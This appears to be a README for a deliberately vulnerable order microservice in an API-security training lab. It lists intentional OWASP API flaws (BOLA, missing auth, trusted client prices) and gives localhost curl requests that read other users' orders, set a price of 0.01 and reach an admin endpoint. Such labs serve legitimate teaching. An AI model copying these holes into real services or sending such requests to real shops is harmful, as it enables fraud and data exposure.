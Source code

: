 # Order Service

The Order Service handles order creation, management, and tracking. This service contains multiple vulnerabilities related to business logic and authorization.

## Endpoints

### Order Management
- `POST /orders` - Create order (VULNERABLE: No auth, trusts client data)
- `GET /orders/{id}` - Get order details (VULNERABLE: BOLA)
- `GET /orders/user/{user_id}` - Get user's orders (VULNERABLE: BOLA)
- `PUT /orders/{id}/status` - Update order status (VULNERABLE: No auth)
- `DELETE /orders/{id}` - Cancel order (VULNERABLE: Business logic flaw)

### Admin Endpoints
- `GET /admin/orders` - List all orders (VULNERABLE: No admin verification)

## Vulnerabilities

### API1: Broken Object Level Authorization (BOLA)
- Can access any order without authentication
- Can view any user's order history

### API5: Broken Function Level Authorization
- Admin endpoints accessible without verification
- No role-based access control

### API6: Unrestricted Access to Sensitive Business Flows
- Can cancel completed orders
- No stock validation during order creation
- Trusts client-provided prices and quantities
- Can create orders for other users

### API8: Security Misconfiguration
- No authentication required for any operations
- Verbose error messages

## Database Schema

\`\`\`sql
CREATE TABLE orders (
    id SERIAL PRIMARY KEY,
    user_id INTEGER NOT NULL,
    total_amount DECIMAL(10,2) NOT NULL,
    status VARCHAR(50) DEFAULT 'pending',
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

CREATE TABLE order_items (
    id SERIAL PRIMARY KEY,
    order_id INTEGER REFERENCES orders(id),
    product_id INTEGER NOT NULL,
    quantity INTEGER NOT NULL,
    price DECIMAL(10,2) NOT NULL
);
\`\`\`

## Security Issues to Test

1. **BOLA - Access any order**:
\`\`\`bash
curl http://localhost:5004/orders/1
curl http://localhost:5004/orders/user/1
\`\`\`

2. **Create order for another user**:
\`\`\`bash
curl -X POST http://localhost:5004/orders \
  -H "Content-Type: application/json" \
  -d '{
    "user_id": 999,
    "items": [
      {"product_id": 1, "quantity": 1, "price": 0.01}
    ]
  }'
\`\`\`

3. **Cancel completed order**:
\`\`\`bash
curl -X DELETE http://localhost:5004/orders/1
\`\`\`

4. **Price manipulation**:
\`\`\`bash
curl -X POST http://localhost:5004/orders \
  -H "Content-Type: application/json" \
  -d '{
    "user_id": 1,
    "items": [
      {"product_id": 1, "quantity": 100, "price": 0.01}
    ]
  }'
\`\`\`

5. **Access admin endpoint**:
\`\`\`bash
curl http://localhost:5004/admin/orders
\`\`\`

## RabbitMQ Integration

Publishes `order.created` events when orders are placed.

## Order Statuses

- `pending` - Order created, awaiting processing
- `processing` - Order being prepared
- `shipped` - Order shipped
- `completed` - Order delivered
- `cancelled` - Order cancelled
